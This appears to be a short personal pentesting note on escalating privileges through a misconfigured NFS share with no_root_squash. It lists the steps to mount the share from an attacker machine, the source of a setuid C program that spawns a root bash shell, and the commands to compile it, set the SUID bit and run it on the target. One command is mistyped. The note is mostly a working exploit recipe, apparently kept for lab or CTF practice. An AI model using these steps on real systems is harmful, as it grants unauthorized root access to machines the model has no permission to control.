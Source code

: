 use the command `cat /etc/exports` to find nfs shares

If one of these NFS shares has "rw" permissions and a "no\_root\_squash” option, you then need to use this command on attacker machine (as root):

`showmount -e <target_ip_address>`

this will list the available nfs shares, then mount the share when in **root** with:

`mkdir /tmp/localshare`

`mmount -o rw <target_ip_address>:/targetshare /tmp/localshare`

then make a simple priv esc c code file with:

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main (void) {
    setuid(0);
    setgid(0);
    system("/bin/bash -p");
    return 0;
}
```

then while in the share use these commands as root on your attacker machine to compile them:

`gcc code.c -o code -w`

`chmod +sx code`

![ebad508331ce82db091532e89d3f4a9b.png](../../../_resources/ebad508331ce82db091532e89d3f4a9b.png)

from here navigate to the share on the target machine and execute the code

![0d05744de9e6b253db17987bb11d31f2.png](../../../_resources/0d05744de9e6b253db17987bb11d31f2.png)

### NOTE: this wont work on kali arm distro vm, only on x64